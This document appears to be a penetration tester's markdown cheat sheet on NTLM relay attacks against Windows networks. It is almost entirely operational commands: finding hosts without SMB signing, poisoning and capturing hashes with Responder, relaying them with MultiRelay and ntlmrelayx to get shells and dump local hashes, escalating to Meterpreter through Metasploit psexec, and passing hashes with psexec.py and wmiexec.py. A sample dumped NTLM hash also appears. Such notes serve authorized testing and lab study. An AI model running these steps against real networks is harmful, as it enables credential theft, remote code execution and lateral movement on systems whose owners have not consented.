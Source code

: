 ## Search for SMB signing
* `responder-RunFinger -i <target>`
    - identify host with SMB signing disbled 

## Responder 
* change `/etc/responder/Responder.conf` - relay the hash
  * `SMB` - off
  * `HTTP` - off
* `responder -I <interface> <--lm> <-dwPv>`
  - `--lm` downgrade NTLMv1/v2 hashes to LM hashes where possible
## Getting shell
### 1. MultiRelay
While responder is running:
* `responder-MultiRelay -t <target> -u <username/ALL> `

In case of issues with MultiRelay.py:
- `apt-get install gcc-mingw-w64-x86-64`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode`

or
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode`

> [!Important]
To keep `SMB` and `HTTP` On in responder.conf - capture the hashes
- 1. Run responder until hashes is received and close
- 2. Run Multirelay
- 3. While MultiRelay is running, run again responder

### 2. ntlmrelayx
In responder.conf, `SMB` and `HTTP` are Off
* `impacket-ntlmrelayx -t <target>` - dumps the local hashes
* `impacket-ntlmrelayx -t 172.16.5.10 -i` - interactive shell

## Upgrade to Meterpreter shell
### Windows
* msf> `use exploit/windows/smb/psexec`
  - `set smbuser <localAccount>` - localAccount taken from `ntlmrelayx/MultiRelay.py` hash dump
  - `set smbpass <local-NTLM-hash>` - localAccount taken from `ntlmrelayx/MultiRelay.py` hash dump
e.g. localAccount and local-NTLM-hash is bolded in the following: __admin__:1005:__aad3b435b51404eeaad3b435b51404ee:179699ef43d4b9ba2f8f615f59893917__:::
### Linux
* msf> `use exploit/linux/samba/is_known_pipename`

## Other shells
__psexec__:
* `psexec.py <domain>/<user>:'<password>'@<target-IP>`
* `psexec.py <user>@<target-IP>` - hashes <local-NTLM hash>

__wmiexec__:
* `wmiexec.py <user>@<target-IP>` - hashes <local-NTLM hash>
